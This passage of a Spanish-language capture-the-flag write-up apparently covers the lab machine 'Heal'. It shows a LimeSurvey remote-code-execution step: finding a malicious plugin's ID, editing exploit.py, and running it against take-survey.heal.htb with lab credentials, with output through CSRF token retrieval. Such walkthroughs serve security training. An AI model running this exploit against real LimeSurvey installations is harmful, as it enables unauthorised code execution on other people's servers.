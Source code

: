Ahora, vamos a buscar en la página de plugins el plugin malicioso y al poner el ratón encima, nos debemos de fijar en el ID del plugin, en este caso el 18.
![Write-up Image](images/Screenshot_29.png)

Ahora vamos a hacer los cambios necesarios en el archivo `exploit.py`.
Primero en la línea 64 vamos a cambiar la ubicación de nuestro archivo zip.
![Write-up Image](images/Screenshot_30.png)

En la línea 105 vamos a cambiar el dígito por el ID de nuestro plugin malicioso.
![Write-up Image](images/Screenshot_31.png)

Ahora simplemente lanzamos el exploit.
```console
python3 exploit.py http://take-survey.heal.htb ralph 147258369 80
_______________LimeSurvey RCE_______________


Usage: python exploit.py URL username password port
Example: python exploit.py http://192.26.26.128 admin password 80


== ██╗   ██╗ ██╗██╗     ██████╗  ██╗██████╗  ██╗███╗   ███╗ ==
== ╚██╗ ██╔╝███║██║     ██╔══██╗███║██╔══██╗███║████╗ ████║ ==
==  ╚████╔╝ ╚██║██║     ██║  ██║╚██║██████╔╝╚██║██╔████╔██║ ==
==   ╚██╔╝   ██║██║     ██║  ██║ ██║██╔══██╗ ██║██║╚██╔╝██║ ==
==    ██║    ██║███████╗██████╔╝ ██║██║  ██║ ██║██║ ╚═╝ ██║ ==
==    ╚═╝    ╚═╝╚══════╝╚═════╝  ╚═╝╚═╝  ╚═╝ ╚═╝╚═╝     ╚═╝ ==


[+] Retrieving CSRF token...
dGF2Rko2UG9zcFNxTFUyeUE4dm1QMlcxbDNVQVJIMHnpLn6u0NvCtGcYomg2iCwhvU5ADdybiRE3BwQo2OYHJw==
```